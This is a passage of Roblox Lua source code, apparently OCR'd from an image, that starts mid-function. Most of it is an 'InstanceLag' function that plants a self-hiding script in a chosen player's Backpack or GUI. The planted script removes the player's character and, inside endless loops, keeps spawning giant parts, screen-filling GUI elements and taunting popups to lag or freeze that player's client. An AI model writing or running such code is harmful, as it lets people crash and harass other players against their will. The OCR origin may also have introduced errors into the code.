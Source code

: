 		end)()
		wait(2)
		BBG:Destroy()
	end
	end
  end)()
end


function InstanceLag(plr)
  local par = plr:findFirstChild("Backpack") or plr:findFirstChild("PlayerGui") or plr.Character
  local src = [[
	wait() script.Parent=nil LocalPlayer=Game:GetService("Players")["LocalPlayer"]
	TheInstances = {}
	function AddInstance(name,par)
	TheInstances[name]={Name=name,Parent=par}
	end
	-- CurrentCamera --
	AddInstance("Part","CurrentCamera")
	AddInstance("SelectionBox","CurrentCamera")
	AddInstance("Hint","CurrentCamera")
	AddInstance("Message","CurrentCamera")
	-- PlayerGui --
	AddInstance("ScreenGui","PlayerGui")
	AddInstance("TextLabel","ScreenGui")
	AddInstance("TextBox","ScreenGui")
	AddInstance("TextButton","ScreenGui")
	AddInstance("Frame","ScreenGui")
	AddInstance("ImageButton","ScreenGui")
	AddInstance("ScrollingFrame","ScreenGui")
	-- Backpack --
	AddInstance("HopperBin","Backpack")
	LocalPlayer.CameraMode=1
	LocalPlayer.Character=nil
	repeat wait()
	Game:GetService("RunService").RenderStepped:connect(function()
		coroutine.wrap(function()
		while 1 do
			wait()
			for i,v in pairs(TheInstances) do
			CurrentCamera=Workspace:findFirstChild("Camera")
			PlayerGui=LocalPlayer:findFirstChild("PlayerGui")
			Backpack=LocalPlayer:findFirstChild("Backpack")
			if v.Name == "Message" or v.Name == "Hint" then
				pcall(function() Instance.new("Hint",CurrentCamera).Text="No plz" end)
				pcall(function() Instance.new("Message",CurrentCamera).Text="Haz fun lele" end)
			elseif v.Name == "Part" then
				pcall(function()
				Part=Instance.new("Part",CurrentCamera)
				Part.Size=Vector3.new(60,60,60)
				Part.BrickColor=BrickColor.Random()
				end)
			elseif v.Parent == "CurrentCamera" then
				pcall(function() Instance.new(v.Name,CurrentCamera) end)
			elseif v.Parent == "PlayerGui" then
				pcall(function() Instance.new(v.Name,PlayerGui) end)
			elseif v.Parent == "ScreenGui" then
				pcall(function()
				ScreenGui = PlayerGui:findFirstChild("PLayerGui")
				if ScreenGui then
					Instance.new(v.Name,ScreenGui).Size=UDim2.new(1,0,1,0)
				end
				end)
			elseif v.Parent == "Backpack" then